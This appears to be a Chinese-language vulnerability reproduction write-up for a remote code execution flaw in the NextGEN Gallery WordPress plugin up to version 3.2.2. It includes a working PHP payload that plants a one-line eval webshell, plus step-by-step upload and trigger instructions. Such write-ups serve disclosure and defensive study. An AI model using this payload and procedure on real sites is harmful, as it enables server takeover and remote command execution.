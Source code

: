 WordPress Plugin - NextGEN Gallery \<= 3.2.2 RCE
================================================

一、漏洞简介
------------

WordPress插件NextGEN Gallery \<=
3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

    <?php
        file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
    ?>

### 第2步：上传zip压缩包

点击"Add Gallery / Images"然后上传zip压缩包。

![](./resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId26.png)

### 第3步：查看临时目录

点击"import folder"，再点击"uploads"即可看到解压的临时目录。

![](./resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId28.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

    http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php

![](./resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId30.png)

image
